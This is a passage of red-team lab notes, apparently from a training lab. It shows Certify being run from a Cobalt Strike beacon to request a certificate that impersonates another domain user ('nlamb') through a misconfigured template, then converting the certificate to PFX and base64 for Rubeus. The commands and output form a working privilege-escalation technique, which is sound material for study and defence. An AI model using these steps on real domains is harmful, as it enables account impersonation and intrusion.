 ```
beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb

[*] Action: Request a Certificates
[*] Current user context    : DEV\bfarmer
[*] No subject name specified, using current context as subject.

[*] Template                : CustomUser
[*] Subject                 : CN=Bob Farmer, CN=Users, DC=dev, DC=cyberbotic, DC=io
[*] AltName                 : nlamb

[*] Certificate Authority   : dc-2.dev.cyberbotic.io\sub-ca

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 11

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certify completed in 00:00:05.4521116
```

{% hint style="warning" %}
Copy the whole certificate (both the private key and certificate) and save it to <mark style="color:yellow;">`cert.pem`</mark> on Ubuntu WSL.
{% endhint %}

**Then, use the provided `openssl` command to convert it to&#x20;**<mark style="color:yellow;">**`pfx`**</mark>**&#x20;format:**

```
ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password: pass123
Verifying - Enter Export Password: pass123
```

**Convert&#x20;**<mark style="color:yellow;">**`cert.pfx`**</mark>**&#x20;into a base64 encoded string so it can be used with Rubeus:**

```
ubuntu@DESKTOP-3BSK7NO ~> cat cert.pfx | base64 -w 0
MIIM7w[...]ECAggA
```
